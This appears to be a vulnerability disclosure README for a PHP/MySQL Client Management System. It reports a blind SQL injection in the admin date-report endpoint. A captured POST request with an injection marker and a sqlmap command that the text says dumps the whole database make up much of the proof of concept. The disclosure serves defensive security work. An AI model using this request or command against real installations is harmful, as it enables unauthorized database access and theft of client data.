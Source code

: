 # Client-Management-System (v1.1)

## Overview

The Client Management System (CMS) is a web-based application developed using PHP and MySQL for the effective management of client information. This repository contains the source code and comprehensive details of the system, along with a report highlighting a security vulnerability.

**Auditor:**  
Haneen Gufran - [LinkedIn](https://www.linkedin.com/in/haneen-gufran-a8b4a6227)

---

## Security Vulnerability Report

### Description

A **Blind SQL Injection** vulnerability has been identified within the Client Management System. The vulnerability is found in the `Between Dates Reports` parameter in the date functionality of the application.

- **Vulnerable Endpoint:**  
  `http://localhost/clientms/admin/bwdates-reports-ds.php`
  
- **Vulnerable Parameter:**  
  `Between Dates Reports`

The input field for the `Between Dates Reports` feature is not properly sanitized, allowing attackers to inject malicious SQL queries. If exploited, this vulnerability could provide unauthorized access to sensitive database information.

### Proof of Concept (PoC)

#### Vulnerable URL
```plaintext
http://localhost/clientms/admin/bwdates-reports-ds.php

#### Example POST Request

```http
POST /clientms/admin/bwdates-reports-details.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCxxk35suiVL6Px2B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/clientms/admin/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p4cek0j306h831oqgio6cb0fid
Connection: keep-alive

------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="fromdate"

*
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="todate"

0093-08-22
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryCxxk35suiVL6Px2B--
```

1. Save the above POST Request to req.txt using notepad or any text editor.

2. Use tool such as SQLMAP to exploit the above by applying this command (you can customize yours): sqlmap -r req.txt --dbs --random-agent --level 3 --risk 3

The above command will dump the entire database of the web application.
